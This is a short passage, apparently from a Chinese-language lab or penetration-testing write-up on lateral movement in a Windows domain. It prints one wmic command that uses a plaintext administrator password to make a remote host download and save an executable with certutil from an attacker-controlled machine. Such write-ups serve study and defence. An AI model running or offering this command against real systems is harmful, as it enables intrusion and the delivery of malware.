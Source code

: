 ![image-20230628203445226](assets/zbXwFPErUsRdK96.png)

#### 2.1.2.2. 文件上传目标主机

这里非常抱歉，我使用域内账户来执行发现权限不够，所以这里我切换了一下权限，看来还是需要使用到system的权限。下面的这个密码也是我后期重新获取的。

```
wmic /node:192.168.20.30 /user:administrator /password:admin@123 process call create "cmd.exe /c certutil -urlcache -split -f http://192.168.20.20/3333.exe c:/3333.exe"
```

![image-20230628205957524](assets/KcwrBAbm17jV4p3.png)

